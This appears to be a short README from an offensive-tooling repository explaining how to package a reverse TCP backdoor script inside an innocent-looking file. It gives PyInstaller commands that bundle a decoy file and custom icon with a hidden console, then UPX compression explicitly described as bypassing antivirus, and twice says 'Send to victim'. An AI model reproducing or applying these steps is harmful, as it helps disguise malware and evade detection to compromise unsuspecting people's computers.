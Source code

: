 # Packaging Backdoor with any file.
 
 ## Using App Data



 ### Steps
- Install Pyinstaller
- Downloading Icon :
    - Download Icon from [IconFinder](https://iconfinder.com/)
    - set filters to free and choose high resolution.
    - download icon
- Changing downloaded png to ico
    - Visit [ICO convert](https://icoconvert.com/) or [OnlineConvert.com](https://image.online-convert.com/convert-to-ico)
    - Upload image
    - choose desired settings
    - convert and download ico file
- If using requests use 2.5.1
    ```
    $ pyinstaller --add-data "path_to_front_file;." --icon "full_icon_path" --one-file --noconsole -n "name_of_output_file" "path_to_reverse_tcp.py"
    ```
- Send to victim.

### Bypassing AV using UPX
- Download [UPX](https://github.com/upx/upx/releases/tag/v3.96)
- Extract files 
- Use UPX to compress pyinstaller generated executable
- Syntax:
    ```
    $ ./upx "full_path_of_executable" -o "full_path_of_compressed_executable"
    ```
- Send to victim
